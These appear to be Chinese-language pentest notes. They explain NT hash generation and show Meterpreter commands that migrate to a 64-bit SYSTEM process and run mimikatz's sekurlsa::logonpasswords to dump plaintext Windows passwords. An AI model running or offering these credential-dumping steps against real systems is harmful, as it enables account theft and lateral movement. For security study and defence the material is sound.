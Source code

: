 ```text
Windows系统下的hash密码格式为：
用户名称:RID:LM-HASH值:NT-HASH值
NT-HASH hash生产方式：

 1. 将明文口令转换成十六进制的格式 
 2. 转换成Unicode格式，即在每个字节之后添加0x00
 3. 对Unicode字符串作MD4加密，生成32位的十六进制数字串

eg：用户密码为test123
转换成十六进制的格式为74657374313233
转换成Unicode格式为7400650073007400310032003300
对字符串7400650073007400310032003300作MD4加密，结果为c5a237b7e9d8e708d8436b6148a25fa1
```

### mimikatz

加载 mimikatz 模块，加载模块前需要先将meterpreter迁移到64位的进程，该进程也需要是system权限

```text
ps
migrate PID
load kiwi
kiwi_cmd -f sekurlsa::logonpasswords
```

​![image](http://127.0.0.1:6806/assets/image-20231212103545-7ycs6rq.png)​

​![image](http://127.0.0.1:6806/assets/image-20231212103748-5fc3ckf.png)​

选择一个system权限的进程

​![image](http://127.0.0.1:6806/assets/image-20231212103642-w933i1i.png)​

​​![image](http://127.0.0.1:6806/assets/image-20231212105218-w7e1p83.png)​​

<span style="font-weight: bold;" data-type="strong">这里有一点要注意</span>

mimikatz的x86无法访问x64

查看一下当前的pid

​![image](http://127.0.0.1:6806/assets/image-20231212105005-6l0lc11.png)​

​![image](http://127.0.0.1:6806/assets/image-20231212105026-9vcucsk.png)​

在进程里是一个x86程序

切换到x64下的程序

​![image](http://127.0.0.1:6806/assets/image-20231212105127-ukg5ntd.png)​

​![image](http://127.0.0.1:6806/assets/image-20231212105137-7ywbtwv.png)​

运行

​![image](http://127.0.0.1:6806/assets/image-20231212105239-wwu5hdz.png)​

​![image](http://127.0.0.1:6806/assets/image-20231212105250-jmnxu0e.png)​

查到了明文密码
